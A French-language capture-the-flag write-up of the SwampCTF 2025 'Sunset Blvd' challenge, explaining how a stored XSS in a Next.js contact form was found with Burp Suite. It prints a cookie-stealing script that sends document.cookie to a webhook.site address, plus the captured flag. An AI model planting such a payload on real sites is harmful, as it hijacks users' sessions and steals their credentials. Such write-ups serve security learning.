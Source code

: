 
# 🛡️ Writeup – Sunset Blvd – SwampCTF 2025  
**Morad Halmi – Étudiant Ecole2600 – CTF Web**

---

## 🎯 Objectif du challenge

L’objectif de ce challenge était d’identifier une vulnérabilité sur un site web construit avec **Next.js** et de s’en servir pour récupérer un **flag**. Pas d’authentification, pas d’indice apparent : on partait sur une approche en boîte noire.

---

## 🧭 Reconnaissance

En arrivant sur `http://chals.swampctf.com:41218`, je tombe sur une page vitrine autour d’un spectacle musical, avec pas mal d’éléments visuels mais rien d’interactif... jusqu’à ce que je descende en bas de page et que je trouve un **formulaire pour envoyer un message à Nicole**.

C’est à ce moment-là que je me suis dit : “Ok, on va creuser ce formulaire, c’est peut-être là que ça se joue.”

---

## 🔍 Analyse technique avec Burp

J’ouvre **Burp Suite** pour observer la requête générée par l’envoi du formulaire. Ce qui attire mon attention, c’est le type de contenu :

```
Content-Type: text/x-component
```

Ce type-là est souvent utilisé avec **Next.js App Router**, et ça peut indiquer que des composants sont rendus dynamiquement, côté client ou serveur. C’est le genre de stack où on peut espérer trouver des failles liées à l’exécution ou au rendu.

---

## ⚙️ Tests d’injection

Je tente quelques payloads XSS classiques dans le champ du message :

```html
<script>alert('XSS')</script>
```

Rien ne s’affiche côté client. Je tente alors un script un peu plus discret qui ne déclenche rien à l’écran mais qui me permettrait d’exfiltrer des infos :

```html
<script>
fetch("https://webhook.site/XXXXXX?cookie=" + document.cookie)
</script>
```

Je valide, j’attends… et je surveille **Webhook.site**.

---

## ✅ Faille XSS stockée confirmée

Quelques secondes plus tard, je vois une requête dans mon tableau Webhook. Le script s’est bien exécuté quelque part. Le `document.cookie` est passé en GET dans l’URL.  
On est clairement face à une **XSS stockée**. À ce stade, je me doute que si une personne “importante” (type admin) consulte le message, son cookie tombera dans ma boîte.

---

## 🔬 Observations supplémentaires

En parallèle, je continue à jouer avec des requêtes dans **Burp Repeater**. Je remarque qu’en envoyant un corps JSON vide :

```json
[]
```

le serveur répond `200 OK`. Il me retourne aussi des objets JSON qui ressemblent à ça :

```json
{
  "a": "$@1",
  "b": "pSJfPxPDSdJhY2jiHNo_e"
}
```

Je note l’info, mais ça ne semble pas directement exploitable pour le flag. Je reviens donc à la piste XSS.

---

## 🎯 Exfiltration du flag

Je laisse tourner mon payload XSS pendant que je continue d’explorer. Puis, en vérifiant Webhook.site… je vois une nouvelle requête GET, avec ça dedans :

```
admin-auth=authenticated;
swampCTF=swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

![Webhook.site Capture](./image.png)

Le flag était **directement dans les cookies**, ce qui confirme que mon script a été exécuté dans une session avec droits élevés (probablement un bot admin ou un reviewer automatique).

---

## 🏁 Flag final

```
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

---

## 🚩 Ce que j’ai retenu

Ce challenge était simple en apparence, mais il m’a obligé à :

- Identifier un formulaire comme surface d’attaque principale  
- Comprendre comment **Next.js App Router** gérait les composants dynamiquement  
- Valider une **XSS stockée** grâce à Burp + Webhook.site  
- Attendre intelligemment une exécution par une cible privilégiée  

C’était une bonne illustration de l’impact réel d’une XSS stockée. Pas besoin d’exploit complexe : une injection bien placée, un peu de patience, et une écoute côté Webhook suffisait à faire tomber le flag.

---
